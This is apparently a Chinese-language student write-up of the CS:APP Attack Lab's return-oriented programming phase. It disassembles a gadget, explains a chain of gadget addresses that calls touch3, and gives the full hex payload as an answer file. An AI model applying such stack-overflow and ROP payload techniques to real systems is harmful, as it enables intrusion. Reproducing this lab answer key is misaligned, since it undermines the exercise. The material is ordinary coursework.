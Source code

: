 ```assembly
00000000004019d6 <add_xy>:
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
```

`04 37` 是 `add $0x37,%al` ，可以表示将传入的字符串存在距离栈顶 `0x37` （55）字节处。
由上，可以构造这样一个攻击链：
先填充 40 字节破坏栈，紧接着是 `movq %rsp,%rax`，将下一个栈顶位置存入 `%rax` ，代码位置是 `0x401aad`；接着 `add $0x37,%al` ，给 `%rax` 加值 `0x37` ，这段代码位置是 `0x4019d8` ；然后将 `%rax` 值传入函数的参数 `%rdi` ，代码位置由上题是 `0x4019a2` ，然后跳转到 `touch3` 函数，地址是 `0x4018fa` ；最后存入字符串，并在其前面填充字节使其地址与保存的栈顶地址相差 55 个字节，共要填充 `(55-3×8)=31` 个字节，所以答案可以是：

ans5.txt

>01 01 01 01 01 01 01 01 01 01
>01 01 01 01 01 01 01 01 01 01
>01 01 01 01 01 01 01 01 01 01
>01 01 01 01 01 01 01 01 01 01
>ad 1a 40 00 00 00 00 00
>d8 19 40 00 00 00 00 00
>a2 19 40 00 00 00 00 00
>fa 18 40 00 00 00 00 00
>01 01 01 01 01 01 01 01 01 01
>01 01 01 01 01 01 01 01 01 01
>01 01 01 01 01 01 01 01 01 01
>01
>35 39 62 39 39 37 66 61 00
